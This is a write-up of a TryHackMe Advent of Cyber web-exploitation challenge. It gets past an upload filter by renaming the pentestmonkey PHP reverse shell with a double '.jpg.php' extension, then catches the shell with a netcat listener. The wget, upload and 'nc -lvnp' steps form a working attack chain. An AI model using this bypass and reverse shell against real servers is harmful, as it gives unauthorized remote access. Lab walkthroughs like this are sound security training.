




# [Day2] Web Exploitation The Elf Strikes Back

[Link to the Challenge](https://tryhackme.com/room/adventofcyber2#task-6)

Navigate your browser to the IP of the box



Find the id is attached to the dossier and add it as a GET parameter to the URL

```
id=ODIzODI5MTNiYmYw
```
```
http://$IP/?id=ODIzODI5MTNiYmYw
```



Get the reverse-shell:
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Find your ip address
```
ip a show tun0
```

Edit the reverse-shell.php and change the `ip` and the `port`
Change the $ip to your ip address and the port to a port you like e.g. 9999 or 4444
Save the file as reverse-shell.jpg.php to trick the upload filter

Upload the file (make sure to change the selection from "All supported Files" to "All Files).

After the upload was successful, goto the uploads page: `http:IP/uploads/?id=ODIzODI5MTNiYmYw`



In your terminal start a netcat session and start listening:
```
sudo nc -lvnp 9999
```

Go back to the browser and click on the uploaded file.



